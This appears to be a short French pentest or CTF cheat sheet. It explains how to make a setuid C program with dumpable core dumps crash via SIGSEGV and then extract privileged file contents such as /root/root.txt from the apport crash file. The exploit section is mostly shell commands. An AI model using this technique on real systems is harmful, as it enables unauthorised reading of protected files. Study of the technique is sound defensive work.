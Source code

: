 # Coredump

> Utiliser les coredumps générés par un programme C setuid pour récupérer des informations nécessitant un niveau de privilèges supérieur
>
> Pré-requis :
>
> - Le programme est **SETUID**, peut donc accéder en lecture à des fichiers nécessitant un niveau de privilège important ;
> - Le programme peut générer des **coredumps** du fait de la ligne suivante (par défaut, ce n'est pas le cas)

```c
prctl(PR_SET_DUMPABLE, 1);
```



###  Exploit

```bash
# Ouvrir 2 sessions SSH

# Session 1
$ ./<BINAIRE_SETUID_C>
# Lire un fichier sensible (e.g. /root/root.txt)

# Session 2
$ watch "ps aux | grep <BINAIRE_SETUID_C>"
## On utilise le signal SIGSEGV, provoquant alors le core dump
$ kill -n 11 <PID_du_process_count>

# Récupération du fichier de crash généré
$ cd /var/crash/<NOM_BINAIRE_C>.crash
$ apport-unpack <NOM_BINAIRE_C>.crash <REPERTOIRE_EXTRACT>
# Récupération du contenu ayant été lu par le fichier SETUID avant de coredump
$ string CoreDump
```

